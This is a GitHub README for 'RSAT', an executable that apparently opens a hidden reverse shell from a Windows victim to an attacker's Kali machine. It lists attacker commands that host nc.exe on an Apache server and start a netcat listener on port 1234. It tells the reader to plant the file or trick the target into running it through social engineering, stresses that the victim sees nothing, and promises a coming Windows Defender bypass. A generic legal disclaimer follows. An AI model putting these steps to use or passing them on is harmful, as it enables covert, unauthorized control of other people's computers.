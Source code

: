 



# RSAT
![RCAT (1)](https://github.com/LostOliie/rsat/assets/137381675/ad3fe0d3-2e62-4a7d-8639-d6911024d68e)
**Reverse Shell Attacking Terminal(RSAT)** is an executable application which can be used to remotely access _a target computer_ from the _attackers computer_ using a service named as **netcat**. **RSAT** is currentely only available to **linux based computers and windows based computers.** Essentially, **RSAT has simply automated the netcat service and made it applicable to** _the backdoor of the target system_so that the user does not know. **RSAT** is a part of the LVSH project which is a hacking framwork  under development. The user must read the full README.md before using the program for smooth and appropriate use.


![RCAT (2)](https://github.com/LostOliie/rsat/assets/137381675/8c1c548c-8f52-463b-a054-a37a366e04bb)


# How does it work?
The attackers computer has to be  _a linux based computer(recommended kali linux)_ the attacking computer shall have netcat installed,

The attacker shall execute **the following commands in their terminal:**

    sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/nc.exe
    sudo systemctl start apache2.service
    nc -nlvp 1234

These commands **start a server and start listening on ** a port named _1234_, the output of these commands should be like so:

      listening on [any] 1234 ...

After doing so, the attacker must simply implant or send the target the **LVSH RSAT** executable into the target computer, then the hacker shall make the target execute it using social engineering **skills or the hacker can execute the .exe file ** when he _implants the file _.

After this the target computer will **not be seeing anything and the ** _program will run infinitly unless the system is restarted or turned off_.

Then the attackers computer will have access to the **target computers shell which the attacker can use to access the device :-)**

**NOTE: THE TARGET COMPUTER HAS TO HAVE WINDOWS DEFENDER DISABLED, THE LVSH PROJECT IS WORKING ON BYPASSING THIS IN THE NEXT VERSION., THE COMMANDS FOR THE ATTACKER ARE LINUX BASED ONLY WHILE THE COMMANDS OF THE TARGET ARE WIN BASED ONLY.*

# Terms & Conditions

Disclaimer: Legal and Responsible Use Statement

The following statement serves as a disclaimer to emphasize the importance of using any program, tool, or software for lawful and ethical purposes only. We strongly discourage and condemn the use of our program for illegal hacking activities or any malicious intent. By using this program, you agree to the terms and conditions outlined below:

Lawful Use: You acknowledge that the program provided is intended solely for legal and ethical purposes. You agree to utilize the program in accordance with local, national, and international laws, regulations, and guidelines.

Prohibited Activities: You agree not to engage in any activities that are illegal, unethical, or harmful to others. This includes, but is not limited to, unauthorized access to computer systems, data breaches, identity theft, malicious attacks, or any actions that compromise the security and privacy of individuals or organizations.

Personal Responsibility: You accept full responsibility for your actions and the consequences that may arise from using the program. You understand that any misuse or illegal activity associated with this program may result in legal penalties, including but not limited to civil and criminal liability.

No Endorsement: The program provider does not endorse or support any illegal or malicious use of the program. We strictly promote ethical conduct, lawful practices, and respect for privacy and security.

Educational and Research Purposes: This program may be used for educational and research purposes to enhance knowledge, improve cybersecurity practices, and promote responsible technology use. However, it should be used solely in controlled environments with appropriate permissions and consents.

Ethical Guidelines: We encourage users to follow established ethical guidelines and respect the rights, privacy, and security of others. Use the program to enhance your understanding, contribute positively to the field, and protect digital ecosystems.

No Warranty: The program is provided "as is" without any warranties, express or implied. The program provider shall not be held responsible for any damages, losses, or liabilities incurred by the user or any third party as a result of using the program.

By using this program, you acknowledge that you have read and understood this disclaimer and agree to abide by its terms and conditions. You further understand that violation of this disclaimer may result in the termination of your access to the program and potential legal consequences.

Remember, technology should be used responsibly, ethically, and legally to ensure a safe and secure digital environment for all. 



    PS: **PROGRAM MADE BY LVSH PROJECT AKA LOSTOLIIE **
